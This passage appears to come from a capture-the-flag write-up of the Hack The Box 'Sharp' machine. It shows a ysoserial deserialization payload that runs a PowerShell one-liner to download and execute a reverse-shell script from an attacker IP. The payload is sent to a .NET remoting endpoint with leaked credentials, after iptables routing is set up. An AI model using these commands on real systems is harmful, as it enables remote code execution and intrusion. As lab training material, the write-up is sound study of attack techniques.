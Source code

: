 ![](https://github.com/legiahuyy/image-host/raw/main/2021-5-14-HTB-Sharp/2021-05-15_11-41.png)

Below is our crafting steps with `ysoserial` and `ExploitRemotingService`:

```powershell
### ysoserial.exeC:\Users\User\Desktop\ysoserial-1.34\Release>ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o base64 -c "powershell IEX(new-object net.webclient).downloadString('http://10.10.16.3/reverse.ps1')"# Breakdown-f Formatter as BinaryFormatter-g TypeConfuseDelegate gadget-o Base64 output-c Create a reverse connection back to our IP using Powershell one-liner called reverse.ps1IEX(New-Object Net.WebClient).downloadString('http://10.10.16.3/reverse.ps1')### ExploitRemotingService.exeC:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Release>ExploitRemotingService.exe -s --user=debug --pass="SharpApplicationDebugUserPassword123!" tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw <wrapped payload># Breakdown-s Pipe command input from stdin--user=debug & --pass="SharpApplicationDebugUserPassword123!" our endpoint credentials
```

#### Network re-routing on Windows and Linux

Before we can send our payload to target host, remember that currently our Linux machine is the only one can connect to HTB VPN, not our Windows. In order to establish a connection between Windows and HTB VPN, we have to do some routing.

The following section helps us turn Kali into a router and act as the gateway.

```bash
# Windows# We want to route any HTB connection to our Kali machine NAT-IP (192.168.157.133)C:\Windows\system32>route add 10.10.10.0 mask 255.255.255.0 192.168.157.133 OK!#	----------------------------------------------# Linux# Enable IP Forwarding$ echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward # Configurate iptables' rules to manage incomming packets# This rule forwards packets from HTB to our Windows machine# Breakdown: Forwarding chain for connection from tun0 to eth0 interface with related and/or established state$ iptables -A FORWARD -i tun0 -o eth0 -m state --state RELATED,ESTABLISHED -j ACCEPT # Accept packets sending back from Windows machine# Breakdown: Receive packets from Windows through eth0 interface then pass it on tun0 and send them to HTB$ iptables -A FORWARD -i eth0 -o tun0 -j ACCEPT# Re-routing NAT from HTB machine back to Windows# Breakdown: Create a NAT table with POSTROUTING chain that accept only IP from the source of eth0 and pass it through tun0 with MASQUERADE policy$ iptables -t nat -A POSTROUTING -s 192.168.157.0/24 -o tun0 -j MASQUERADE 
```

### PowerShell Reverse Connection

Finally, our Windows is able to send/receive packets from HTB machine through Kali.

![](https://github.com/legiahuyy/image-host/raw/main/2021-5-14-HTB-Sharp/2021-05-15_12-49.png)

Now we can send our payload to target remote host and wait for our reverse shell.

```shell
### ExploitRemotingService.exeC:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Release>ExploitRemotingService.exe -s --user=debug --pass="SharpApplicationDebugUserPassword123!" tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw <wrapped payload>
```

After execute the above command, we has established a reverse PowerShell as user `lars`.

![](https://github.com/legiahuyy/image-host/raw/main/2021-5-14-HTB-Sharp/2021-05-15_13-17.png)
